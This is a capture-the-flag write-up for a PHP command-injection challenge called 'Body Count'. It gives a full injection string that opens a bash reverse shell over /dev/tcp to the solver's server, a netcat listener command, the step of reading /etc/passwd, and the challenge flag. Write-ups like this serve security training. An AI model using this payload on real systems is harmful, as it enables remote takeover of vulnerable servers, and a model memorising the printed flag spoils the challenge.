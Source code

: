 # Body Count

Author: [AJ1479](https://github.com/AJ1479) and [roerohan](https://github.com/roerohan)

## Description

This challenge is based on PHP code injection to set up a reverse shell. 

## Requirements

- Docker: [Dockerfile](./Dockerfile)

## Sources

```
Here's a character count service for you!
```

## Exploit

This challenge deals with PHP code injection, you need to enter some code which will help you create a reverse shell.
<br />

The characters are counted using the `wc` command in the `exec()` function in the PHP. This is where you'll have to enter code to open a reverse shell. Something like `'; bash -c "bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"; '`(using semicolons to end the commands) with your server's IP address (instead of 127.0.0.1) and start a netcat listener (`nc -l -p 8000`) on your server. Then, navigate to the `/etc/passwd` to get the flag.
<br />

The flag is:

```
csictf{1nj3ct10n_15_p41nfu1}
```